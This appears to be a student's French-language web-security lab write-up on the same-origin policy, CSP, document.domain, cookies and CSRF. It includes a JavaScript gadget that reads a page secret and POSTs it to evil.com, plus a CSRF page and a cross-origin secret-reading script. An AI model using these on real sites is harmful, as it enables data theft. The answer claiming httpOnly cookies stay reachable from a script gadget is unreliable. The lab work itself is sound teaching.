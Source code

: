 # TP3

**Question 1 : Look at the code of [`integrator.html`](/src/tp3/ressources/integrator.html) and write code for `evilGadget.js` in such a way that evilGadget.js will send the secret to evil.com. Rewrite [`integrator.html`](/src/tp3/ressources/integrator.html) so the same origin policy will protect the secret.**

**Script : [tp3/ressources/integrator.html (localhost live)](http://host.com:8080/tp3/ressources/integrator.html) | [tp3/ressources/integrator.html (code)](/src/tp3/ressources/integrator.html)**

[evilGadget.js](/src/tp3/mycode/evilGadget.js)
[get_secret.php](/src/tp3/mycode/get_secret.php)

```js
const secret = document.getElementById("secret").innerText;

const urlAttackerSever = "http://evil.com:8080/tp3/mycode/get_secret.php";

const request = {
    method: "POST",
    headers: {
        'Content-Type': 'application/json',
    },
    body : JSON.stringify({ secret: secret })
};

fetch(urlAttackerSever, request)
```

**Deux solutions sont possibles :**

Ajouter un CSP (Content Security Policy) dans `integrator.html` pour empêcher le chargement du script `evilGadget.js` :

Il suffit d'ajouter la balise suivante dans le header de la page HTML :

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

Ou en transformant la page HTML en script PHP, et en ajoutant le header suivant :

```php
<?php header("Content-Security-Policy: script-src 'self'"); ?>
```

La deuxième solution est à privilégier.

Réponse v1 : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.html) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.html)

Réponse v2 : [tp3/mycode/integrator_csp.html (localhost live)](http://host.com:8080/tp3/mycode/integrator_csp.php) | [tp3/mycode/integrator_csp.html (code)](/src/tp3/mycode/integrator_csp.php)

On remarque que le script `evilGadget.js` n'est pas chargé :

```js
Refused to load the script 'http://evil.com/tp3/mycode/evilGadget_fetch.js' because it violates the following Content Security Policy directive: "script-src 'self'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback
```

**La seconde :**

Pour mettre en place le *SOP* (Same Origin Policy), afin de protéger le secret, il faut mettre une balise `<iframe>` au lieu d'une balise script. Comme la balise `<iframe>` sont conçue pour charger une page HTML dans une autre page HTML. Nous allons devoir créer une page HTML sur le site **`evil.com`**, contenant une balise script ayant pour source **`evilGadget.js`**.

```html
<!-- page web HTML sur evil.com -->
<html>  
<head>  
    <script src="http://evil.com:8080/mycode/evilGadget_fetch.js"></script>  
</head>  
<body>  
<h1>  
    Page from evil.com  
</h1>  
</body>
```

Le gadget est le même vu précédemment.

Nous devons ensuite modifier la page **integrator.html** de manière suivante, afin de changer la balise script par une balise iframe

```html
<!-- integrator.html sur host.com -->
<html>  
<h1>  
    Trusted page  
  
    <div id=secret>  
        42  
    </div>  
</h1>  
  
<iframe src="http://evil.com:8080/mycode/page.html"></iframe>  
</html>
```

Finalement, le site `evil.com` ne peut plus récupérer le secret.

**Question 2 : Look at the [`sop2.html`](/src/tp3/ressources/sop2.html). From [`subdomain2.html`](/src/tp3/ressources/subdomainpage2.html) try to read the secret from the integrator, what happens according to SOP? How do you read the secret by using `document.domain`?**

Il n'est pas possible de récupérer le secret, car la source l'`iframe` ne provient pas de la même origine que le serveur hébergeant la page principale. La raison provient de la politique SOP appliquée par les iframes.

Pour pouvoir lire le secret, il faut changer le nom de domaine dans une balise script fournie par le serveur `subdomain.host.com`. Nous pouvons réaliser cela, en modifiant le fichier `subdomainpage.html` de la manière suivante :

```html
<html>  
<head>  
<h1> This is an iframe of different origin \(subdomain\)</h1>  
<script>  
    document.domain="host.com";  
    mydiv=document.getElementById("secret");  
    alert(mydiv.innerHTML);  
</script>  
</head>  
</html>
```

Nous devrions pouvoir afficher le secret dans une balise alert. Pour que cela fonctionne, il faut aussi modifier le fichier `sop2.html` de la manière suivante :

```html
<html>
<head>
</head>
<body>
    <div id=secret> The secret is 42 </div>
    <script> 
        document.domain = "host.com";
    </script>
    <iframe src="http://subdomain.host.com:8080/tp3/ressources/subdomainpage2.html"> </iframe>
</body>
</html>
```

Il faut que la page principale définisse explicitement la valeur de `document.domain`.

**Question 3 : Write two different services from the same server that set a cookie. On the client side include a gadget et an try the following things:**

- let the gadget delete the cookie via JavaScript
- can the second service delete the cookie of the first? Justify why.
- let the gadget send the cookie to another server (you can use a different port to simulate this)
- does the previous item work if the gadget is inside a frame?
  - and if the gadget is inside a script and the cookie is initially set as httpOnly?
  - and if the gadget is inside a script and the cookie is initially set as secure?  

**Justify all your answers with code and explanations.**

Le second service peut supprimer le cookie du premier car, les deux scripts appartiennent au même domaine. Ils partagent donc le même espace de stockage au niveau du navigateur, incluant les cookies.

S'il est à l'intérieur d'une frame oui, après ça dépend de la politique SameSite du cookie.

Si le gadget est à l'intérieur d'un script et qu'il est en httpOnly ou en secure, il sera également envoyé.

**Question 4 : Implement a CSRF attack and explain then demonstrate what kind of SameSite cookie can mitigate this attack.**

Pour implémenter une CSRF, nous devons avoir une page web hébergée, par exemple sur `evil.com` qui réalise une requête sur un autre site, par exemple `host.com`.`

[csrf_attack.html](/src/tp3/mycode/csrf_attack.html)

```html
<!-- Page sur evil.com -->
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
<h1>Attaque CSRF on evil.com to host.com</h1>
<script>
    const url = "http://host.com:8080/random_ressouce.html";
    window.location.replace(url);
</script>
</body>
</html>
```

Les cookies de `host.com` sont envoyés au cours de la requête.
